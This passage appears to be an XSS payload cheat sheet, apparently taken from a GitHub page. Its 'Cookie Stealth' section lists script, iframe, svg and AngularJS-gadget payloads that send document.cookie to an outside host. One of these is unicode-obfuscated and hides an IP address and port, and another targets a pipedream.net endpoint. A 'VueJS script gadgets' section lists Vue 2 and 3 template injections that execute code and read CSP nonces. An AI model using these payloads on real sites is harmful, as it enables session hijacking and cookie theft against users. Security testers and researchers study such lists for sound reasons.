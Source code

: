 ```html
```

<span style="color:#21C587">&#35;</span><strong> Cookie Stealth</strong><br>
```html
<script>fetch('url'%2bdocument.cookie)</script>
<script>(new Image).src='url'%2bdocument.cookie;</script>
<script src="//code.jquery.com/jquery.min.js"></script><script>$.get('url'%2bdocument.cookie)</script>
<script src="//code.jquery.com/jquery.min.js"></script><script>$.getScript("//domain"%2bdocument.cookie)</script>
<video src=1 onerror="javascript:document.location='url'%2bdocument.cookie">
<iframe onload=location='javascri'.concat("pt:document",".location=","'url'%2bdocument.cookie")>
<iframe onload=location=["java","script:","document.location=","'url'%2bdocument.cookie"].join("")>
<svg/onload=setTimeout("\u006a\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003a\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u003d\u0027\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0031\u0034\u0031\u002e\u0031\u0036\u0034\u002e\u0035\u0032\u002e\u0032\u0030\u0037\u003a\u0031\u0032\u0033\u0034\u0035\u002f\u003f\u0061\u003d\u0027\u002b\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u0063\u006f\u006f\u006b\u0069\u0065")>
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([location.replace("//384bbb03a643480f7077ff3d9d4b01d5.m.pipedream.net?"+document.cookie)],console.log)'></div>
```

---
## VueJS script gadgets

```html
VueJS version 2

<p v-show="_c.constructor`alert(1)`()">
<x v-on:click='_b.constructor`alert(1)`()'>click</x>
<x v-bind:a='_b.constructor`alert(1)`()'>
<x @[_b.constructor`alert(1)`()]>
<x :[_b.constructor`alert(1)`()]>
<p v-=_c.constructor`alert(1)`()>
<x #[_c.constructor`alert(1)`()]>
<p :=_c.constructor`alert(1)`()>
{{_c.constructor('alert(1)')()}}
{{_b.constructor`alert(1)`()}}
{{_c.constructor`alert(document.currentScript.nonce)`()}} 
```
```html
VueJS version 3

{{_openBlock.constructor('alert(1)')()}}
{{_createBlock.constructor('alert(1)')()}}
{{_toDisplayString.constructor('alert(1)')()}}
{{_createVNode.constructor('alert(1)')()}}
<p v-show="_createBlock.constructor`alert(1)`()">
<x @[_openBlock.constructor`alert(1)`()]>
<x @[_capitalize.constructor`alert(1)`()]>
<x @click=_withCtx.constructor`alert(1)`()>click</x>
<x @click=$event.view.alert(1)>click</x>
{{_Vue.h.constructor`alert(document.currentScript.nonce)`()}}
```

---